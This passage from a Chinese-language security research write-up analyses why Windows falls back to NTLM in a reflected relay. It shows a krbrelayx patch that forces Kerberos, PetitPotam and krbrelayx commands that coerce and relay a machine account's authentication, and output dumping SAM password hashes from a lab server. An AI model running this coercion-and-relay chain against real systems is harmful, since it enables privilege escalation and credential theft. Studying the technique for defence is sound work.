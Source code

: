#### 有趣的是，即使我們使用 DNS 紀錄作為 listener host，且 krbrelayx.py 宣告自己支援 Kerberos 作為驗證協定之一，最終仍然被協商成 NTLM 驗證。

原因其實很簡單，這和 Negotiate 驗證套件的運作方式有關：

1. 如果遠端伺服器同時支援 Kerberos 和 NTLM（就像 krbrelayx.py）
2. 而用戶端偵測到目標就是本機
- 那麼系統就會選擇 NTLM（以執行本機 NTLM 驗證）。
3. 要判斷目標是否為本機，用到的是 lsasrv!NegpIsLoopback 函式。
4. 它的邏輯和 `msv1_0!SspIsTargetLocalhost` 類似，會把目標名稱和 localhost、機器的 FQDN、主機名稱 進行比較。
5. 在我們的案例中，目標名稱正好等於主機名稱，因此 `lsasrv!NegpIsLoopback` 回傳 true，導致系統選擇了 NTLM。
6. 如果要強制使用 Kerberos，只需要從  advertised types 中移除 NTLM mechtype 即可。

```windows=
File: krbrelayx/lib/servers/smbrelayserver.py
156:         blob['tokenOid'] = '1.3.6.1.5.5.2'
157:         blob['innerContextToken']['mechTypes'].extend([MechType(TypesMech['KRB5 - Kerberos 5']),
158:                                                        MechType(TypesMech['MS KRB5 - Microsoft Kerberos 5']),
159:                                                        MechType(TypesMech['NTLMSSP - Microsoft NTLM Security Support Provider'])])
```

#### 通過應用此補丁， relay 也能使用了！

```python=
$ PetitPotam.py -u loki -p aloki -d ASGARD.LOCAL srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SRV1.ASGARD.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

# krbrelayx.py -t SRV1.ASGARD.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD: Received connection from 192.168.56.13
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x2969778d862ac2a6df59a263a16adbd1
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:04e87eb3e0d31f79a461386dfe9c7500:::
user:1000:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::
[*] Done dumping SAM hashes for host: srv1.asgard.local
```

我們採用了相同的調查方法：一開始先分析網路封包，以了解發生了什麼情況。
然而，封包分析並沒有顯示任何異常。透過 驗證強制 (authentication coercion)，我們成功取得並轉送了一個針對 `cifs/srv1` 服務、使用 `SRV1$` 帳號的 `AP-REQ`，這正是 Kerberos 驗證強制應該有的行為。

> 令人困惑的是，我們卻能夠傾印 SAM 登錄檔 (registry hive)。

